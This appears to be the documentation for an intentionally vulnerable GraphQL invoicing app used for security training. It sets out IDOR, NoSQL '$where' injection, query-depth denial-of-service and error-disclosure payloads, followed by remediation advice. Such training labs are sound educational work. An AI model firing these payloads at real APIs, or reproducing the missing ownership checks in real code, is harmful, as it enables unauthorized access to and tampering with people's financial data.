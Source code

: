 # GraphQL IDOR Vulnerabilities

This document describes the intentionally vulnerable GraphQL endpoints implemented for educational purposes in the Invoicer application.  

## Overview

Insecure Direct Object References (IDOR) in GraphQL APIs occur when an application fails to properly validate access permissions before performing operations on objects. Our implementation includes various IDOR vulnerabilities commonly found in GraphQL applications.  

## Vulnerabilities and Test Cases

### 1. Basic User Data IDOR

**Vulnerability**: Allows fetching any user's data without authorization.  

```graphql
query GetUser($id: ID!) {
  user(id: $id) {
    username
    role
    createdAt
  }
}
```

**Impact**: Any authenticated user can access another user's data, including sensitive role information.  

### 2. Private Data IDOR with Circular References

**Vulnerability**: Exposes private user information through nested circular references.  

```graphql
query GetUser($id: ID!) {
  user(id: $id) {
    privateData {
      bankAccount
      taxId
      user {
        privateData {
          bankAccount
          user {
            # Can be nested up to 10 levels deep
          }
        }
      }
    }
  }
}
```

**Impact**:
- Exposes sensitive financial data
- Allows deep nesting that could impact server performance
- Creates circular references that could be exploited

### 3. Admin Access IDOR

**Vulnerability**: No role-based access control for admin features.  

```graphql
query {
  allUsers {
    id
    username
    role
  }
}
```

**Impact**: Regular users can access admin-only functionality.  

### 4. Invoice Access IDOR

**Vulnerability**: No ownership validation for invoice access.  

```graphql
query {
  invoice(id: "any-invoice-id") {
    invoiceId
    items {
      description
      quantity
      unitPrice
    }
  }
}
```

**Impact**: Users can access any invoice in the system.  

### 5. Mass Assignment IDOR

**Vulnerability**: Allows arbitrary MongoDB queries through filter parameter.  

```graphql
query {
  searchInvoices(filter: "{\"$where\": \"return true\"}") {
    invoiceId
    amountPaid
  }
}
```

**Impact**: Potential NoSQL injection through unvalidated filters.  

### 6. Profile Update IDOR

**Vulnerability**: No ownership validation before profile updates.  

```graphql
mutation {
  updateUserProfile(userId: "any-user-id", newUsername: "hacked") {
    username
  }
}
```

**Impact**: Users can modify other users' profiles.  

### 7. Invoice Deletion IDOR

**Vulnerability**: No ownership check before deletion.  

```graphql
mutation {
  deleteInvoice(invoiceId: "any-invoice-id")
}
```

**Impact**: Unauthorized deletion of any invoice.  

### 8. Predictable IDs IDOR

**Vulnerability**: Uses predictable ID patterns for sensitive data.  

```graphql
mutation {
  createPrivateUserData(userId: "user-1", data: "test@example.com") {
    id # Returns in format: PRIVATE-{userId}
  }
}
```

**Impact**: Predictable IDs make it easier to enumerate and access private data.  

## Additional Security Issues

### 9. Error Information Disclosure

**Vulnerability**: Returns detailed error messages including stack traces and database internals.  

```graphql
query {
  user(id: "invalid-id") {
    username
  }
}
```

**Example Response**:
```json
{
  "errors": [{
    "message": "CastError: Cast to ObjectId failed...",
    "extensions": {
      "stacktrace": [
        "at model.Document.get...",
        "at MongoDB.findById..."
      ]
    }
  }]
}
```

**Impact**: Reveals implementation details that could aid attackers.  

### 10. Query Depth Attack

**Vulnerability**: Allows deeply nested queries (up to 10 levels) that could cause performance issues.  

```graphql
query GetUser($id: ID!) {
  user(id: $id) {
    privateData {
      user {
        privateData {
          user {
            # Can be nested multiple times
          }
        }
      }
    }
  }
}
```

**Impact**:
- Potential DoS through resource exhaustion
- Memory consumption through deep nesting
- CPU consumption through circular references

## Security Notes

These vulnerabilities are intentionally implemented for educational purposes. In a production environment, you should:

1. Implement proper authorization checks
2. Validate object ownership
3. Use role-based access control
4. Implement query depth limiting
5. Add rate limiting
6. Sanitize error messages
7. Use non-predictable IDs
8. Validate input thoroughly
9. Prevent circular references

## Testing

Run the test suite to verify all vulnerabilities are working as expected:

```bash
pytest test_graphql_idor.py -v
```

All tests should pass, demonstrating each vulnerability is properly implemented for educational purposes.  

